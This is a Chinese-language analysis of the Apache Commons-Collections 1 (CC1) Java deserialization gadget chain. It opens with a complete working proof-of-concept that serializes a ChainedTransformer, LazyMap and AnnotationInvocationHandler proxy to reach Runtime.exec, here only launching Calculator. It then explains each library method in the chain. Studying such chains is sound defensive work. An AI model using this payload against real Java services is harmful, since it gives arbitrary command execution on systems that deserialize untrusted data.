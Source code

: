 # CC1代码分析

POC

```java
package demo;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CommonCollections1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})};
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap);
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, handler);
        handler = (InvocationHandler) construct.newInstance(Retention.class, proxyMap);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(handler);
        oos.close();
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object) ois.readObject();
    }
}

```



```java
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})};
```

创建Transformers数组，存放实现了transform接口的类示例。transform接口

```java
public interface Transformer {
    Object transform(Object var1);
}
```

数组第一个元素为ConstantTransformer

```java
public class ConstantTransformer implements Transformer, Serializable {
    static final long serialVersionUID = 6374440726369055124L;
    public static final Transformer NULL_INSTANCE = new ConstantTransformer((Object)null);
    private final Object iConstant;

    public static Transformer getInstance(Object constantToReturn) {
        return (Transformer)(constantToReturn == null ? NULL_INSTANCE : new ConstantTransformer(constantToReturn));
    }

    public ConstantTransformer(Object constantToReturn) {
        this.iConstant = constantToReturn;
    }

    public Object transform(Object input) {
        return this.iConstant;
    }

    public Object getConstant() {
        return this.iConstant;
    }
}
```

transform返回类对象。

后面三个元素都是InvokerTransformer

```java
    public Object transform(Object input) {
        if (input == null) {
            return null;
        } else {
            try {
                Class cls = input.getClass();
                Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
                return method.invoke(input, this.iArgs);
            } catch (NoSuchMethodException var5) {
                throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' does not exist");
            } catch (IllegalAccessException var6) {
                throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
            } catch (InvocationTargetException var7) {
                throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' threw an exception", var7);
            }
        }
    }
```

获取输出的类对象，获取iMethodName方法并通过invoke执行。

接下来

```java
        Transformer transformerChain = new ChainedTransformer(transformers);
```

ChainedTransformer将transformers串联起来，并将结果传递给下一个元素的

transformer函数作为object input参数

```java
    public Object transform(Object object) {
        for(int i = 0; i < this.iTransformers.length; ++i) {
            object = this.iTransformers[i].transform(object);
        }
```

上述代码实现获取了Runtime -> getRuntime ->exec并用invoke执行方法，相当于invoke.invoke(java.lang.Runtime.getRuntime,null)。到这里核心利用链已经构造好了。接下来就是要找到可以调用到ChainedTransformer.transform去执行Transformers链的方法。这里用了LazyMap。

```java
Map innerMap = new HashMap();
Map outerMap = LazyMap.decorate(innerMap, transformerChain);
```

decorates设置了map和this.factory并返回对象。

```java
    public static Map decorate(Map map, Transformer factory) {
        return new LazyMap(map, factory);
    }

    protected LazyMap(Map map, Transformer factory) {
        super(map);
        if (factory == null) {
            throw new IllegalArgumentException("Factory must not be null");
        } else {
            this.factory = factory;
        }
    }
```

LazyMap的get方式执行了transform

```java
    public Object get(Object key) {
        if (!super.map.containsKey(key)) {
            Object value = this.factory.transform(key);
            super.map.put(key, value);
            return value;
        } else {
            return super.map.get(key);
        }
    }
```

要找到一个调用了LazyMap.get方法，并且实现了序列化接口的方法。CC1找到了sun.reflect.annotation.AnnotationInvocationHandler#invoke方法，并使用动态代理执行invoke方法。动态代理会自动调用被代理的对象的invoke方法

```java
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap);
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, handler);
        handler = (InvocationHandler) construct.newInstance(Retention.class, proxyMap);
```

获取类sun.reflect.annotation.AnnotationInvocationHandler对象；

获取构造方法；

xxxx.setAccessible(true)绕过权限控制，设置了true意味着可以获取到私有、受保护的对象；

实现InvocationHandler接口，proxy代理实例的调用处理程序实现的一个接口，每一个proxy代理实例都有一个关联的调用处理程序；在代理实例调用方法时，方法调用被编码分派到调用处理程序的invoke方法。传入outerMap实例化sun.reflect.annotation.AnnotationInvocationHandler。

设置动态代理对象；

sun.reflect.annotation.AnnotationInvocationHandler#invoke方法调用get部分

```java
            default:
                Object var6 = this.memberValues.get(var4);
                if (var6 == null) {
                    throw new IncompleteAnnotationException(this.type, var4);
                } else if (var6 instanceof ExceptionProxy) {
                    throw ((ExceptionProxy)var6).generateException();
                } else {
                    if (var6.getClass().isArray() && Array.getLength(var6) != 0) {
                        var6 = this.cloneArray(var6);
                    }

                    return var6;
                }
            }
```

下面就是序列化对象了

```java
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(handler);
        oos.close();
```

利用过程：

动态代理调用sun.reflect.annotation.AnnotationInvocationHandler#invoke方法

​		invoke方法调用lazyMap#get

​				get调用ChainedTransformer#transform

​						transform循环调用transformers元素的transform并把结果传递到下一个循环作为transform参数				
